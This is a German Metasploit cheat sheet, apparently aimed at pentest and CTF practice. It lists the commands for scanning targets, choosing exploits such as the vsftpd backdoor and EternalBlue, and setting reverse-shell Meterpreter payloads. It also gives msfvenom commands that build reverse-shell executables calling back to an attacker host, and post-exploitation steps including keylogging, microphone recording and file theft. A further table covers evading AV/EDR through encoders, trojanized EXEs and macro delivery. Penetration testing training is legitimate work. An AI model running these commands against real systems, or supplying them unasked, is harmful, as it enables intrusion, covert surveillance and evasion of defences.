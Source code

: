 msfconsole      # Startet Metasploit

msfupdate       # Führt Updates durch

searchsploit    # Lokaler Exploit-Search (nicht Teil von MSF, aber wichtig)


back             # Zurück ins vorherige Menü

info             # Details zum Modul

show exploits    # Liste aller Exploits

jobs             # Hintergrund-Jobs anzeigen

kill <JobID>     # Job beenden

save             # Alle Einstellungen speichern

setg             # Global setzen (z.B. `setg LHOST`)


Exploit: Schwachstelle

Payload: Was ausgeführt wird (z.B. Shell)

Module: Exploits, Scans, Hilfsprogramme

Encoder: Verschlüsselung gegen AV/EDR

Nops: "No-Operation" Padding

Listener: Wartet auf Verbindung (Reverse Shell)


**📌 Port- und Servicerecon via Nmap:** db_nmap -sV -p- 10.10.10.10
→ Ergebnisse werden direkt in die Metasploit-Datenbank importiert.

hosts        # Zeigt erkannte Hosts

services     # Zeigt erkannte Services

vulns        # Zeigt bekannte Schwachstellen


**🔎 Modul finden und auswählen:**:

search vsftpd

search type:exploit name:ftp

use exploit/unix/ftp/vsftpd_234_backdoor


show options

set RHOSTS 10.10.10.10

set RPORT 21

set LHOST <deine IP>

set LPORT 4444


**🧨 Payload auswählen:**

set PAYLOAD linux/x86/meterpreter/reverse_tcp

show payloads        # Liste kompatibler Payloads



exploit         # Führt Exploit aus

run             # Alias für exploit

exploit -j      # Hintergrund (Job)

exploit -z      # Kein automatischer Sessionwechsel


**🐚 Post-Exploitation (Meterpreter):**

sessions                 # Liste aller aktiven Sessions

sessions -i <ID>         # Wechsel in Session

pwd, ls, cd              # Navigation

download file.txt        # Vom Ziel holen

upload script.sh         # Hochladen

sysinfo                  # OS-Infos

getuid                   # Benutzer anzeigen

ps                       # Prozesse anzeigen

shell                    # Interaktive Shell starten

migrate <PID>            # Zu anderem Prozess wechseln

keyscan_start            # Keylogger starten

screenshot               # Bildschirmfoto

record_mic               # Mikrofon aufnehmen

**💀 Privilege Escalation:**

use post/multi/recon/local_exploit_suggester

set SESSION 1

run
→ Zeigt passende lokale Escalations.


**🎯 Reverse Shell Payloads:**

set PAYLOAD windows/meterpreter/reverse_tcp

set LHOST <dein VPN>

set LPORT 4444


*Staged: kleiner Loader, lädt weiteren Code nach (z. B. reverse_tcp)*
*Stageless: ganze Payload auf einmal (z. B. reverse_tcp_rc4)*



use auxiliary/scanner/ftp/ftp_version

use auxiliary/scanner/http/dir_scanner

use auxiliary/scanner/rdp/rdp_scanner

use auxiliary/scanner/smb/smb_enumshares

use auxiliary/scanner/ssh/ssh_login


set RHOSTS 10.10.10.10

set THREADS 10

run


**📁 Payloads generieren (msfvenom):**

msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.9.0.1 LPORT=4444 -f exe -o shell.exe

Beliebte Formate: exe, elf, asp, aspx, war, ps1, php, bash, js



use exploit/multi/handler

set PAYLOAD windows/meterpreter/reverse_tcp

set LHOST 10.9.0.1

set LPORT 4444

exploit




| Zielsystem  | Beispiel-Modul                             |
| ----------- | ------------------------------------------ |
| Samba       | `exploit/multi/samba/usermap_script`       |
| Windows SMB | `exploit/windows/smb/ms08_067_netapi`      |
| MS17-010    | `exploit/windows/smb/ms17_010_eternalblue` |
| Web (PHP)   | `exploit/unix/webapp/phpmyadmin_lfi_rce`   |
| Tomcat      | `exploit/multi/http/tomcat_mgr_upload`     |


**AV/EDR umgehen:**
| Technik        | Hinweis                                     |
| -------------- | ------------------------------------------- |
| Encoder        | z. B. `-e x86/shikata_ga_nai`               |
| Custom Binary  | z. B. `.ps1`, `.hta`, `.doc`                |
| Obfuscation    | Manuelles Packing, Macro Delivery           |
| Payload Split  | Staged Payload nutzen                       |
| Trojanisierung | z. B. `msfvenom` in bestehende EXE injecten |


**Datenbank:**

msfdb init         # Startet Postgres-DB für Metasploit

db_status          # Zeigt Status an

workspace -a hack  # Erstellt neuen Arbeitsbereich

hosts, services    # Ausgabe je nach Workspace


**🗂️ Strukturierte Pentest-Nutzung:**
# Setup

workspace -a targetXYZ

db_nmap -sV -T4 -A 10.10.10.10

services

search <version>

use exploit/...


- Kombiniere Nmap und Metasploit: Ports aus Nmap mit search port:PORT matchen
- Nutze exploit suggester Module nach erfolgreicher Shell
- Verwende post/multi/recon/local_exploit_suggester
- Verwende msfvenom mit Social Engineering (PDF, HTA, VBA etc.)
- AV-Bypass: Payloads mit encoders (-e x86/shikata_ga_nai) & packern

